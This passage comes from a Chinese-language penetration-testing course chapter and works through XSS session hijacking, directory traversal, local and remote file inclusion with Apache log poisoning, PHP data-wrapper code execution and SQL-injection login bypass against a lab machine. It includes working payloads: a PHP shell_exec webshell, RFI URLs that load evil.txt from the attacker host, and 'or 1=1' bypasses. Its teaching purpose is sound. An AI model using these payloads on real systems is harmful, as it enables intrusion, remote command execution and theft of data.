既然我们已经安装了 *Cookie-Editor*，我们将返回 Web 应用程序并点击 *Cookie-Editor* 图标以打开其对话框窗口。


*图 150: Cookie-Editor 对话框窗口*

接下来，我们将点击 *Add* 按钮，粘贴窃取的 cookie 值，然后再次点击 *Add* 保存新的 cookie：


一旦添加了 cookie 值，我们就可以浏览到位于 `/admin.php` 的管理界面，而无需提供任何凭据：


请注意，我们没有重定向到登录页面，并且在反馈项旁边有“Delete”链接。这表明我们已成功劫持了管理员用户的会话。请注意，此攻击是针对特定会话的。一旦我们窃取了会话，我们就可以冒充受害者，直到他们注销或其会话过期。

### 9.4.2.5 练习

- 1. 利用示例应用程序中的 XSS 漏洞获取管理员 cookie 并劫持会话。请记住使用 Windows 10 实验室机器上的 PowerShell 脚本来模拟管理员登录。
- 2. 思考 XSS 漏洞在此应用程序中可能用于攻击的其他途径。
- 3. 此漏洞利用攻击针对的是服务器还是网站的客户端？

### 9.4.2.6 其他 XSS 攻击载体

前面的章节展示了基本的 XSS 利用示例。如果 Web 应用程序在显示用户输入之前不进行任何过滤，我们将拥有 JavaScript 的全功能范围，仅受限于我们可以注入代码的长度。即使有效载荷大小有限，也可能使用 XSS 注入指向外部 JavaScript 文件的链接，从而绕过大小限制。

XSS 的潜在影响不仅限于窃取 cookie。我们已经提到了重定向和客户端攻击。XSS 有效载荷的其他示例包括键盘记录器、网络钓鱼攻击、端口扫描以及内容抓取器/刮取器。Kali Linux 包含 BeEF（Browser Exploitation Framework），它可以利用简单的 XSS 漏洞发起多种不同的客户端攻击。虽然我们在本章节中不会涵盖 BeEF，但请花时间探索针对你的 Windows 10 实验室机器的功能。

#### 9.4.3 目录遍历漏洞

*目录遍历* $^{274}$ 漏洞，也称为 *路径遍历* 漏洞，允许攻击者未经授权访问应用程序内的文件，或通常无法通过 Web 界面访问的文件（例如位于应用程序 Web 根目录之外的文件）。此漏洞发生在输入验证不当的情况下，随后赋予攻击者使用 `../` 或 `..\` 字符操纵文件路径的能力。

这些攻击可以暴露敏感信息，但不会在应用程序服务器上执行代码。在某些使用特定编程语言编写的应用程序服务器上，目录遍历攻击可用于辅助*文件包含*攻击。虽然识别这两种漏洞类型所使用的技术存在一些重叠，但它们在结果上是不同的。我们将首先介绍目录遍历技术，并在后面的章节中介绍文件包含漏洞。

### 9.4.3.1 识别和利用目录遍历

搜索目录遍历始于检查 URL 查询字符串和表单主体，寻找作为文件引用的值，包括最常见的指示：URL 查询字符串中的文件扩展名。

一旦我们确定了一些可能的候选项，我们就可以修改这些值，尝试引用系统中任何用户都可读的文件，例如 Linux 上的 `/etc/passwd` 或 Windows 上的 `C:\boot.ini`。

让我们回到我们的 Windows 10 实验室机器上的示例应用程序来演示此漏洞。请务必在继续之前启动 Apache 和 MySQL。

从主 Web 索引页面，点击“Menu”以显示示例菜单：


点击“Menu”链接后，URL 更新并包含一个名为 `file` 的参数，其值为 `"current_menu.php"`。参数值上的文件扩展名通常是一个很好的指示，表明我们应该进一步调查，因为它暗示文本或代码正在从不同的资源中包含进来。大多数目录遍历并非如此明显，但相当多的旧 PHP 应用程序以类似的方式加载页面。

在不知道代码外观的情况下，我们可以通过更改 `file` 的值来开始对其进行探测。如果我们将其从 `"current_menu.php"` 更改为类似于 `"old.php"`，我们会得到一个错误而不是菜单：


请注意，错误消息表明服务器无法打开文件进行包含，并返回了完整的文件路径。这表明我们可以通过操纵 `file` 参数来控制页面中渲染的内容。如果我们尚不知道目标是 Windows 主机，此错误消息就会暴露这一点。它还包含了有关应用程序源目录的信息。操作系统信息对于利用目录遍历至关重要。

既然我们知道应用程序运行在 Windows 系统上，让我们更新我们的 payload 以针对 Windows **hosts** 文件。这是一个在 Windows 系统上很有用的目标文件，因为它可靠且任何用户都可以访问。

让我们将参数值更改为 `c:\windows\system32\drivers\etc\hosts` 并提交该 URL：

```
http://10.11.0.22/menu.php?file=c:\windows\system32\drivers\etc\hosts
```


*列表 294 - 更新 URL 以指向 Windows hosts 文件*

在浏览器中提交此 URL 后，页面包含了 `hosts` 文件的内容：


很好。看起来这个目录遍历漏洞允许我们读取任何类型的文件，包括 Web 根目录之外的文件。

## 9.4.3.2 练习

1. 利用目录遍历漏洞读取你的 Windows 10 实验机器上的任意文件。

### 9.4.4 文件包含漏洞

与仅显示文件内容的目录遍历不同，文件包含[275]漏洞允许攻击者将文件包含到应用程序正在运行的代码中。

为了实际利用文件包含漏洞，我们不仅需要能够执行代码，还需要能够将我们的 shell payload 写入某个位置。

本地文件包含（LFI）发生在被包含的文件从同一 Web 服务器加载时。远程文件包含（RFI）发生在文件从外部源加载时。这些漏洞常见于 PHP 应用程序，但也可能出现在其他编程语言中。

这些漏洞的利用取决于应用程序所使用的编程语言以及服务器配置。在 PHP 的情况下，语言运行时版本和 Web 服务器配置（特别是 `php.ini` 中的值，如 `register_globals` 和 `allow_url_wrappers`）在利用这些漏洞方面会产生相当大的影响。

> `Windows 10` 实验机器上的 `php.ini` 文件位于 `C:\xampp\php\php.ini`。在对文件进行任何更改之前，请考虑先进行备份。

请注意，目录遍历漏洞通常与 LFI 结合使用，特别是用于指定 LFI payload 中使用的文件。

#### 9.4.4.1 识别文件包含漏洞

文件包含可以像目录遍历那样被发现。我们必须找到可以操纵的参数，并尝试使用它们加载任意文件。然而，文件包含更进一步，因为我们要尝试在应用程序内执行文件的内容。

我们还应该检查这些参数，看它们是否容易受到远程包含（RFI）的影响，方法是将其值更改为 URL 而不是本地路径。由于现代 PHP 版本的默认配置禁用了远程 URL 包含（这是我们执行远程代码所需的关键功能），因此我们不太可能找到 RFI 漏洞。但是，我们仍应测试 RFI，因为它们通常比 LFI 更容易利用。我们可以像处理 XSS 那样使用 Netcat、Apache 或 Python 来处理请求。我们可能需要尝试在不同的端口上托管我们的 payload，因为目标服务器发起的任何远程连接都可能受到内部防火墙或路由规则的限制。可能需要一些尝试和错误。

#### 9.4.4.2 利用本地文件包含 (LFI)

让我们回到 Windows 10 实验机器上的示例应用程序。我们将接着之前的目录遍历攻击继续，查看 `menu.php` 的源代码以澄清我们要处理的内容：

```php
37 <?php
38     $file = $_GET["file"];
39     include $file; ?>
```

*列表 295 - 来自 `menu.php` 的代码摘录*

应用程序从请求查询字符串中读取 `file` 参数，然后使用该值与 `include`[276] 语句。这意味着应用程序将执行指定文件内的任何 PHP 代码。如果应用程序使用 `fread` 打开文件并使用 `echo` 显示内容，那么文件中的任何代码都将被显示而不是执行。

如果我们能够以某种方式将 PHP 代码写入本地文件，我们可能能够将此漏洞升级为远程代码执行。既然我们无法向服务器上传文件，我们有什么选择？

#### 9.4.4.3 污染日志文件

我们尝试向服务器注入代码的一种方法是通过日志文件投毒。大多数应用程序服务器都会记录所有请求的 URL。我们可以利用这一点，提交一个包含 PHP 代码的请求。一旦请求被记录在日志中，我们就可以在 LFI payload 中使用该日志文件。

本模块中使用的工具，尤其是 Dirb，可能会在 Apache 日志文件中产生大量噪音。如果日志文件相对干净，本节的后续步骤将更易于查看和理解。我们将使用 Windows 10 客户端上的 `Documents\clear_logs.ps1` 脚本来清理 Apache 日志文件的内容。

我们可以使用 `-ExecutionPolicy Bypass` 临时允许未签名脚本，并使用 `-File clear_logs.ps1` 指定要执行的脚本：

```powershell
C:\Users\admin\Documents> powershell -ExecutionPolicy Bypass -File clear_logs.ps1
```

*列表 296 - 运行 PS1 脚本以清除 Apache 日志文件*

接下来，让我们使用 Netcat 连接到端口 80 上的 Windows 10 实验机器，并发送一个有趣的 payload。让我们解析该 payload 的各个组成部分。

首先，请注意整个 payload 是用 PHP 编写的：它以 `<?php` 开头，以 `?>` 结束。PHP payload 的主体是一个简单的 `echo` 命令，它将向页面打印输出。该输出首先被包裹在 `pre` HTML 标签中，这会保留函数调用结果中的任何换行符或格式。接下来是函数调用本身，`shell_exec`，它将执行操作系统命令。最后，操作系统命令通过 `$_GET['cmd']` 从 GET 请求的 `"cmd"` 参数中获取。这一行 PHP 允许我们通过查询字符串指定一个操作系统命令，并在浏览器中输出结果。

让我们现在发送该 payload：

```bash
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>' ?>
HTTP/1.1 400 Bad Request
```

*列表 297 - 使用 Netcat 发送 PHP payload*

尽管出现了“Bad Request”[277] 错误（因为我们要发送的不是有效的 HTTP 请求），我们可以通过检查 Windows 10 实验机器上的 Apache 日志文件来验证请求已提交。

我们可以通过打开 `C:\xampp\apache\logs\access.log` 或使用 XAMPP 控制面板来查看这些日志。

我们的 payload 应该位于日志文件的末尾附近：

```text
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500] "GET /css/bootstrap.min.css HTTP/1.1" 200 155758 "http://10.11.0.22/menu.php?file=\\Windows\\System32\\drivers\\etc\\hosts" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruick.php HTTP/1.1" 200 1889 "http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] "GET \"<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>' ?>\" HTTP/1.1" 400 981 "-" "-"
```

*列表 298 - Apache `access.log` 文件*

由于我们的 payload 已被记录在日志中，我们可以尝试执行 LFI。

#### 9.4.4.4 LFI 代码执行

接下来，我们将使用 LFI 漏洞包含包含我们 PHP payload 的 Apache `access.log` 文件。我们知道应用程序使用了 `include` 语句，因此被包含文件的内容将作为 PHP 代码执行。

我们将构建一个 URL，其中包含日志的位置以及我们要执行的命令（`ipconfig`），该命令作为 `cmd` 参数的值发送。

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```


### *列表 299 - 使用被污染的日志文件*

一旦将 URL 发送到 Web 服务器，输出应该类似于以下内容：


如果一切按预期工作，页面底部应包含 `ipconfig` 的输出。

[275] (Wikipedia, 2019), https://en.wikipedia.org/wiki/File_inclusion_vulnerability
[276] (Wikipedia, 2019), https://en.wikipedia.org/wiki/File_inclusion_vulnerability
[277] (Mozilla, 2019), https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/400

那么，这里究竟发生了什么？由于该应用程序使用了 PHP 的 `include` 语句，并且我们能够指定要包含的文件（清单 295），被污染的 `access.log` 文件的内容就被网页执行了。

PHP 引擎接着执行日志文件文本中的 `<?php echo shell_exec($_GET['cmd']);?>` 部分（即我们的攻击载荷），其中 `cmd` 变量的值为“`ipconfig`”，这实际上是在目标系统上运行了 `ipconfig` 并显示其输出结果。日志文件中的其他行只是被原样显示，因为它们不包含有效的 PHP 代码。

这显然不是开发人员的本意！

既然我们已经展示了如何通过日志文件投毒来获取代码执行权限，那么我们应该能够在系统上获取一个 shell。我们将把这一任务留给读者作为练习。

## 9.4.4.5 练习

- 1. 通过利用 LFI（本地文件包含）攻击获得代码执行权限。
- 2. 利用获得的代码执行权限获取完整的 shell 权限。

## 9.4.4.6 远程文件包含（RFI）

远程文件包含（RFI）漏洞比 LFI（本地文件包含）漏洞更为少见，因为服务器必须按照非常特定的方式进行配置，但 RFI 漏洞通常更容易利用。例如，PHP 应用程序必须将 `allow_url_include` 设置为“On”（开启）。旧版本的 PHP 默认将此选项设置为开启，但新版本默认设置为“Off”（关闭）。如果我们能强制网络应用程序加载并执行远程文件中的代码，我们在创建利用载荷时将拥有更大的灵活性。

让我们来看一个 RFI 漏洞的例子。之前演示的 LFI 漏洞同样容易受到 RFI 攻击。请考虑以下情况：

```
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt
```

清单 300 - 使用 `file` 参数尝试 RFI 载荷

此请求将强制 PHP web 服务器尝试从我们的 Kali 攻击机中加载一个远程文件。我们可以通过在 Kali 机器上启动一个 netcat 监听器，然后在 Windows 10 目标上提交该 URL 来测试这一点：

```
kali@kali:~$ sudo nc -nlvp 80

listening on [any] 80 ...

connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 50324

GET /evil.txt HTTP/1.0

Host: 10.11.0.4

Connection: close
```

清单 301 - 使用 Netcat 监听器验证 RFI

输出结果表明，当提交 URL 时，Windows 10 机器确实尝试联系我们的 Kali 机器以获取 `evil.txt` 文件。如果成功获取了该文件，它还将进一步尝试包含并执行该文件。

虽然这是一个简单的例子，但该 URL 是有效的且流程正在运行，这本质上允许我们加载并执行托管在远程 web 服务器上的任何文件。

> 旧版本的 PHP 存在一个漏洞，即空字符（null byte）[^278]（`%00`）会终止任何字符串。这个技巧可用于绕过服务器端添加的文件扩展名，并且对于文件包含非常有用，因为它防止将文件扩展名视为字符串的一部分。换句话说，如果应用程序读取某个参数并在其后附加 "`php`"，那么通过参数传入的空字符实际上会在字符串中添加 ".php" 扩展名之前结束字符串。这赋予了攻击者更大的灵活性，可以使用文件包含漏洞加载哪些文件。

> 对于 RFI 载荷的另一个技巧是在末尾加上问号 (`?`)，这将服务器端添加到 URL 中的任何内容标记为查询字符串的一部分。

为了查看其实际效果，我们可以配置我们的 Apache 服务器以托管一个恶意的 `evil.txt` 文件，其中包含我们在日志投毒攻击中使用的相同 PHP 命令 shell。创建文件后，我们将通过快速重启来刷新 Apache：

```
kali@kali:/var/www/html$ cat evil.txt
<?php echo shell_exec($_GET['cmd']); ?>
kali@kali:/var/www/html$ sudo systemctl restart apache2
```

清单 302 - 创建 RFI 载荷并启动 Apache

一旦文件就位且 web 服务器正在运行，我们就可以向 Windows 10 机器上存在漏洞的网络应用程序发送我们的 RFI 攻击 URL，并查看我们的代码是否执行：

```
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
```

清单 303 - 利用 RFI 漏洞


很好。利用成功了。我们的代码从远程服务器被包含并成功执行。这是一个非常简单的 *webshell*（Web 后门）。

[^278]: (The PHP Group, 2019), https://www.php.net/manual/en/security.filesystem.nullbytes.php


Webshell 是一小块软件，它提供基于 Web 的命令行界面，使执行命令变得更加简单和方便。有很多类型的 webshells，Kali 在 `/usr/share/webshells` 中包含了几种，它们是用许多常见的 Web 应用程序编程语言编写的。一如既往，在使用这些文件之前，请审查其内容。

基于这些简单示例的成功，我们可以使用 Apache（或其他 HTTP 服务器）来托管这些 shell 用于 RFI，从而扩展我们的能力。

现在既然我们能够在服务器上执行代码，借助 Kali Linux 附带的 webshells，从代码执行到获取 shell 应该是件简单的事。

## 9.4.4.7 练习

- 1. 利用网络应用程序中的 RFI 漏洞并获取 shell。
- 2. 使用 `/menu2.php?file=current_menu` 作为起点，利用 RFI 获取 shell。
- 3. 使用 Kali 附带的其中一个 webshell 在 Windows 10 目标上获取 shell。

## 9.4.4.8 扩展你的技能库

既然我们已经走完了基础知识部分，让我们看看一些扩展技能库的方法。

首先，让我们看看一些 Apache 的替代方案。

Kali 包含几个可以创建 HTTP 服务器的工具。如果我们需要在任意端口上快速启动 HTTP 服务器，这特别有用。

> 请注意，以下示例使用的是注册端口，但如果我们以 root 用户权限运行命令，也可以在系统端口上运行服务器。

例如，我们可以通过设置 `--m SimpleHTTPServer` 来设置所需模块，并设置 `7331` 来设置 TCP 端口，从而在 Python 2.x 中在任意端口上启动 HTTP 服务器：

```
kali@kali:~$ python -m SimpleHTTPServer 7331
Serving HTTP on 0.0.0.0 port 7331 ...
```

清单 304 - 使用 Python 2 在端口 7331 上运行 HTTP 服务器

Python 3.x 的语法略有不同，因为模块名称不同：

```
kali@kali:~$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
```

清单 305 - 使用 Python 3 在端口 7331 上运行 HTTP 服务器

这两个命令都会启动一个 HTTP 服务器，并托管当前工作路径下的任何文件或目录。

PHP 包含一个内置的 web 服务器，可以通过 `-S` 标志后跟要使用的地址和端口来启动：

```
kali@kali:~$ php -S 0.0.0.0:8888
```


PHP 7.3.8-1 Development Server started at Wed Aug 28 12:59:52 2019

```
```

Listening on http://0.0.0.0:8888

Document root is `/home/kali`

Press Ctrl-C to quit.

```
### 清单 306 - 使用 PHP 在端口 8888 上运行 HTTP 服务器

我们还可以使用 Ruby“单行命令”启动 HTTP 服务器。该命令需要几个标志，包括 `–run` 用于加载 `un.rb`（其中包含常见 Unix 命令的替代方案），`–e httpd` 用于运行 HTTP 服务器，`.` 用于从当前目录提供内容，以及 `–p 9000` 用于设置 TCP 端口。

```
kali@kali:~$ ruby –run –e httpd . –p 9000

[2019-08-28 12:44:14] INFO WEBrick 1.4.2

[2019-08-28 12:44:14] INFO ruby 2.5.5 (2019-03-15) [x86_64-linux-gnu]

[2019-08-28 12:44:14] INFO WEBrick::HTTPServer#start: pid=1367 port=9000
```

### 清单 307 - 使用 Ruby 在端口 9000 上运行 HTTP 服务器

我们还可以使用 `busybox`（“嵌入式 Linux 的多功能瑞士军刀”）运行 HTTP 服务器，使用 `httpd` 作为功能，`–f` 用于交互运行，`–p 10000` 用于在 TCP 端口 10000 上运行：

```
kali@kali:~$ busybox httpd –f –p 10000
```

### 清单 308 - 使用 BusyBox 在端口 10000 上运行 HTTP 服务器

要停止其中任何一个服务器，我们只需按下 `Ctrl C` 即可。

接下来，让我们讨论一下 PHP 包装器。

## 9.4.4.9 PHP 包装器

PHP 提供了几种协议包装器[^279]，我们可以使用它们来利用目录遍历和文件包含漏洞。这些过滤器在我们试图通过 LFI 漏洞注入 PHP 代码时提供了额外的灵活性。

我们可以使用[^280]包装器将内联数据作为 URL 的一部分嵌入，使用明文或 base64[^281]编码数据。当我们无法向本地文件注入 PHP 代码时，这个包装器为我们提供了一种替代的载荷。

让我们更仔细地看看如何使用 data 包装器。它以“data:”开头，后跟数据类型。在这种情况下，我们将使用“text/plain”表示明文。然后我们用逗号标记内容的开始，在这里是“hello world”。当我们将它们全部组合在一起时，就得到“data:text/plain,hello world”。

我们已经知道菜单页容易受到 LFI 攻击。如果我们提交一个使用 data 包装器的载荷，应用程序应该将其视为常规文件并将其包含在页面中。让我们通过提交以下 URL 并检查结果来验证是否有效：

```
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```

### 清单 309 - 使用 data 包装器的测试载荷

[^279]: (The PHP Group, 2019), https://www.php.net/manual/en.wrappers.php
[^280]: (The PHP Group, 2019), https://www.php.net/manual/en/wrappers.data.php
[^281]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Base64

让我们看看它是如何渲染的：


正如所料，应用程序将数据包装器（data wrapper）当作文件处理，并将其包含在页面中，显示了我们的“hello world”字符串。

既然明文数据包装器起作用了，让我们看看能把它推演到什么程度。我们知道该页面存在 LFI 漏洞，且之前的示例证明了我们可以使用数据包装器注入内容。让我们用一些 PHP 代码替换“hello world”，并检查它是否会被执行。我们将使用 `shell_exec` 来运行 `dir` 命令，并将其包裹在 PHP 标签中。因此，URL 看起来像这样：

```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir"); ?>
```

> 列表 310- 使用数据包装器的 LFI 载荷示例

让我们提交它，看看是否有效：


图 159：利用数据包装器进行 LFI 攻击

太棒了。我们包含在数据包装器中的 PHP 代码已在服务器端执行，并生成了目录列表。现在我们可以利用 LFI 漏洞，而无需操纵任何本地文件。

## 9.4.4.10 练习

- 1. 使用 PHP 包装器利用 LFI 漏洞。
- 2. 使用 PHP 包装器在你的 Windows 10 实验室机器上获取 shell。

#### 9.4.5 SQL 注入

SQL 注入是一种常见的 Web 应用程序漏洞，其原因是未净化的用户输入被插入到查询中，随后传递给数据库执行。查询用于与数据库交互，例如插入或检索数据。如果我们能够向查询中注入恶意输入，就可以“突破”开发人员编写的原始查询，并引入我们自己的恶意操作。

这类漏洞可能导致数据库信息泄露，并且根据环境不同，还可能导致服务器被完全攻陷。

在本节中，我们将在 PHP/MariaDB 环境下考察 SQL 注入攻击。虽然概念在其他环境中相同，但在攻击过程中使用的语法可能需要更新，以适应不同的数据库引擎或脚本语言。

> MariaDB 与 MySQL 非常相似。实际上，它是 MySQL 的一个分支。虽然存在一些细微差异，但大多数差异对于攻击者来说并不重要。

### 9.4.5.1 基础 SQL 语法

结构化查询语言 (SQL)^284 是与关系型数据库交互的主要语言。虽然 SQL 有标准语法，但大多数数据库软件包都有实现上的变体。不过，基础知识通常都是一样的。让我们先浏览一些基本的 SQL 概念和语法^285，以便在开始利用之前对其有个初步了解。

关系型数据库由一个或多个表组成，每个表有一个或多个列。表中的每个条目称为行。让我们看一个例子：

**列表 311 - 示例用户表**

| id | username | password |
|---|---|---|
| 1 | tom_jones | notunusual |

在列表 311 中，列分别为 `id`、`username` 和 `password`。有一条用户记录，用户名为 `tom_jones`，密码为 `notunusual`。

在大多数情况下，我们将处理*查询*。查询是发给数据库引擎的指令，我们使用它们来检索或操纵数据库中的数据。`SELECT` 查询是最基本的交互方式：

**列表 312 - 简单的 select 查询**

```sql
SELECT * FROM users;
```

我们可以将列表 312 中的查询理解为“显示 `users` 表中的所有列和记录”。`SELECT` 命令的第一个参数是一个列，而星号是表示“所有”的特殊字符。

我们还可以选择使用 `WHERE` 子句向查询引入条件子句：

**列表 313 - 带有 where 子句的 select 查询**

```sql
SELECT username FROM users WHERE id=1;
```


我们可以将列表 313 中的查询理解为“从 users 表中显示 username 字段，仅显示 *id* 为 1 的记录”。

^284 (Wikipedia, 2019), https://en.wikipedia.org/wiki/SQL
^285 (Wikipedia, 2019), https://en.wikipedia.org/wiki/SQL_syntax


这些只是基础中的一部分。我们还可以 `INSERT`、`UPDATE` 和 `DELETE` 表中的数据。我们在这里不会详细介绍这些语句，但在展示如何利用 SQL 注入时，我们会根据需要介绍额外的 SQL 语法。

### 9.4.5.2 识别 SQL 注入漏洞

在寻找 SQL 注入漏洞之前，我们必须首先确定数据可能通过数据库的位置。身份验证通常由数据库支持，并且根据 Web 应用程序的性质，包括电子商务站点上的产品或论坛上的消息线程在内的其他区域通常都需要数据库交互。

我们可以使用单引号 (`'`), 这是 SQL 用作字符串分隔符的字符，作为潜在 SQL 注入漏洞的简单检查。如果应用程序未正确处理此字符，通常会导致数据库错误，并表明存在 SQL 注入漏洞。知道这一点后，我们通常通过在我们怀疑可能将其参数传递给数据库的每个字段中输入一个单引号来开始我们的攻击。在进行黑盒测试时，我们需要使用这种试错方法。^286

如果我们能够访问应用程序的源代码，我们可以审查其中通过字符串连接构建的 SQL 查询。在 PHP 中，这可能类似于以下内容：

```php
$query = "select * from users where username = '$user' and password = '$pass'";
```

*列表 314 - 包含 SQL 查询的 PHP 代码示例*

如果用户数据未经任何净化就包含在 SQL 语句中，发生 SQL 注入的可能性非常高。让我们通过一些例子来分解这一点。在正常的登录中，用户可能会提交用户名 "Tom" 和密码 "password123"。因此，代码看起来像这样：

```php
$query = "select * from users where username = 'Tom' and password = 'password123'";
```

*列表 315 - 正常登录的代码示例*

注意提交的值是如何被单引号包裹的。让我们看看如果提交单引号作为值时会发生什么：

```php
$query = "select * from users where username = '' ' and password = 'password123' ";
```

*列表 316 - 包含 SQL 注入载荷的代码示例*

由于单引号用作分隔符，上述查询被读取为空用户名，然后是一个位置错误的字符串 "and password ='"，从而产生语法错误。如果 Web 应用程序在其页面中显示错误消息，我们将收到类似于以下内容的输出：

> Notice: invalid query: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'password123'' at line 1 in `C:\xampp\htdocs\login.php` on line 20

*列表 317 - 示例 SQL 错误消息*

^286 (Wikipedia, 2019), https://en.wikipedia.org/wiki/Black-box_testing


这个错误消息告诉我们要好几件事：我们导致了一个 SQL 语句错误，数据库软件是 MariaDB，并且服务器在 Windows 上运行 XAMPP。让我们看看如何利用此漏洞来访问管理页面。

### 9.4.5.3 身份验证绕过

身份验证绕过是利用 SQL 注入漏洞的一个经典例子，它展示了恶意用户操纵你的数据库的危险性。考虑上一节中的代码示例。如果我们能够向 SQL 语句中注入自己的代码，我们如何修改查询以利于我们？

以下是正常使用场景：合法用户向应用程序提交用户名和密码。应用程序使用这些值查询数据库。SQL 语句在 *where* 子句中使用 **and** 逻辑运算符。因此，数据库将仅返回具有指定用户名和匹配密码的用户记录。

因此，正常登录的 SQL 查询看起来像这样：

```sql
select * from users where name = 'tom' and password = 'jones';
```
*列表 318 - 登录查询示例*

如果我们控制传入 `$user` 的值，我们可以通过提交 **`tom' or 1=1;#`** 作为用户名来颠覆查询逻辑，从而创建如下查询：

```sql
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```
*列表 319 - 包含 SQL 注入载荷的登录查询示例*

井号字符 (`#`) 是 MySQL/MariaDB 中的注释标记。它有效地移除了语句的其余部分，因此我们只剩下：

```sql
select * from users where name = 'tom' or 1=1;
```
*列表 320 - 实际执行的查询示例*

我们可以将其理解为“显示名称为 tom **或** 其中 1 等于 1 的所有列和行”。由于 "1=1" 条件始终求值为 *true*，将返回所有行。简而言之，通过引入 *or* 子句和 "1=1" 条件，此语句将返回 *users* 表中的所有记录，从而创建一个有效的“密码检查”。

这足以绕过身份验证吗？不一定。我们操纵查询以返回 *users* 表中的所有记录。应用程序代码决定了接下来发生什么。某些编程语言具有查询数据库并期望单条记录的功能。如果这些功能获取多于一行，它们将生成错误。其他功能可能可以正常处理多行。没有应用程序的源代码或使用试错方法，我们就无法知道预期结果。

如果我们在载荷返回多行时遇到错误，我们可以使用 `LIMIT` 语句指示查询返回固定数量的记录：

```sql
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```
*列表 321 - 带有 LIMIT 语句的查询示例*

为了试验这些查询及其对数据库的影响，我们可以使用用户名和密码为 root/root 的 MySQL 账户，直接连接到我们 Windows 10 实验机上的数据库，并直接执行 SQL 语句。

```sql
c:\xampp\mysql\bin> mysql -u root -p root

...
MariaDB [(none)]> use webappdb;
Database changed
MariaDB [webappdb]> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | admin    | p@ssw0rd   |
|  2 | jigsaw   | footwork1ure |
+----+----------+------------+
2 rows in set (0.01 sec)
MariaDB [webappdb]>
```
*列表 322 - 连接到 MariaDB 实例*

现在让我们针对我们的示例应用程序尝试此操作，并试图在没有有效凭据的情况下登录。通过包含 “or 1=1 LIMIT 1;” 子句并注释掉查询的其余部分，我们应该能够欺骗应用程序，使其允许我们在没有密码的情况下进入。我们确切不知道查询看起来是什么样的，但 “or” 子句将求值为 true，因此导致查询返回记录。我们将包含 “LIMIT” 子句以保持简单，仅返回一条记录。我们将通过 “username” 字段提交我们的有效载荷：


如果我们成功操纵了查询，我们应该获得一个有效的已认证会话：


很好。我们已经绕过此应用程序的登录！让我们检查源代码，以便完全理解这里发生了什么：

```php
 11 <?php
 12     session_start();
 13     include "database.php";
 14     if (! empty($_POST ) ) {
```


```
15         if (isset($_POST['username']) && isset($_POST['password']) ) {

 16             $sql="select * from users where username ="' . $_POST['username'] .

               "' and password = \"" . $_POST['password'] . "\"";

 17

 18             $result = $conn->query($sql);

 19             if(!$result) {

 20                 trigger_error("invalid query: " . $conn->error);

 21             }
 22             if ($result->num_rows == 1 ) {

 23                 $_SESSION['user'] = $_POST['username'];

 24                 header("Location:admin.php");

 25             } else {

 26                 echo "<div class=\"alert alert-danger\">Wrong username or password</div>";

 27             }
 28         }
 29

 30     }
 31 ?>
```

*列表 323*

在列表 323 的第 16 行，通过 `POST` 提交的 `username` 和 `password` 参数的值被直接添加到包含 SQL 查询的字符串中。通常，只有当提交有效的用户名和关联的密码时，查询才会返回结果。我们的 SQL 注入有效载荷“逃逸”出预期的查询，并注入了一个“OR”子句，这导致即使用户名和密码不正确，查询也会返回行。


第 22 行检查查询结果是否为一行。如果提交了无效的用户名或密码，查询不会返回任何行。如果提交了有效的用户名和密码，查询将返回一行。应用程序的开发者认为这足以确定是否应认证用户，因为第 23 行将用户名存储在会话状态中，第 24 行将用户重定向到 `admin.php`。

我们必须包含“LIMIT”子句以应对第 22 行的检查。如果没有看到源代码，攻击者不一定知道这一点，这就是为什么在黑盒测试中实验非常重要。

> 我们如何防止 SQL 注入？一种朴素的方法可能是在清理用户输入时移除所有单引号字符。然而，有时单引号应被视为有效输入，例如姓氏。
>
> 最佳方法是使用参数化查询，也称为预编译语句。[287] 该功能允许开发者在其 SQL 语句中放入参数或占位符。然后，用户输入与语句一起提供，数据库将值绑定到语句，在 SQL 语句代码和数据值之间创建一层隔离。这防止了用户提供的数据操纵 SQL 代码。大多数主要的数据库系统和编程语言都支持预编译语句。

### 9.4.5.4 练习

- 与 `MariaDB` 数据库交互并手动执行认证到应用程序所需的命令。理解该漏洞。
- 对用户名字段进行 SQL 注入以绕过登录过程。
- 为什么绕过认证过程后，Web 应用程序中显示的用户名是这样显示的？
- 在密码字段中执行 SQL 注入。有效载荷中是否需要“LIMIT 1”？为什么需要或不需要？

### 9.4.5.5 枚举数据库

我们也可以使用 SQL 注入攻击来枚举数据库。当我们开始构建更复杂的 SQL 注入有效载荷时，我们需要这些信息。例如，如果我们想要从中提取数据，我们需要知道列名和表名。这有助于我们执行更精准的数据提取。

让我们检查一些从应用程序中检索此信息的技术。

我们之前的登录表单不适合演示这一点，因此我们将转向 **`debug.php`**，它也包含一个 SQL 注入漏洞，如下所示代码：

```php
$sql = "SELECT id, name, text FROM feedback WHERE id=". $_GET['id'];
```
*列表 324 - 来自调试页面的 SQL 查询*

我们可以通过将单引号作为 *id* 参数的值来测试此页面是否存在漏洞：


这将导致 SQL 语法错误，表明存在潜在的 SQL 注入漏洞。

### 9.4.5.6 列号枚举

我们可以向查询添加 `order by` 子句以进行简单枚举。该子句告诉数据库根据一个或多个列中的值对查询结果进行排序。我们可以使用列名或查询中的列索引。

让我们提交以下 URL：

```
http://10.11.0.22/debug.php?id=1 order by 1
```
*列表 325 - 附加“order by”语句*

